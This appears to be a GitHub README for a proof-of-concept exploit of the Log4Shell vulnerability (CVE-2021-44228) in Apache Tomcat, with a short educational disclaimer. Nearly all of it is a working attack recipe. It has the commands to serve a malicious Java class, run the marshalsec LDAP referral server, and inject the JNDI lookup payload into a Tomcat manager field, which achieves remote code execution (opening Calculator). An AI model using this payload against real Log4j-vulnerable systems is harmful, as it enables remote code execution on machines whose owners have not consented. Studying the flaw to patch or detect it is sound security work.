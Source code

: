 # Log4j2 CVE-2021-44228 Vulnerability POC in Apache Tomcat


## Preview
![GIF](./assets/images/log4jshell_tomcat.gif)


## Setup

### Start tomcat server
```
git clone
cd apache-tomcat-10.0.14/bin
startup.bat
```
### Serve the exploit class
```
cd exploit
py -m http.server 8888
```
```
cd exploit
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit"
```

### Attack
Input ${jndi:ldap://127.0.0.1:1389/Exploit} in the field 'XML Configuration file path' inside http://localhost:8080/manager/html manager app

Exploit class is loaded and RCE loaded (Calculator app will be opened)

## Disclaimer

The repo is just a POC done for educational purpose. The repo owner is not responsible for any damages done. As a moral note, Don't be evil.

## References
LDAP exploit https://github.com/mbechler/marshalsec
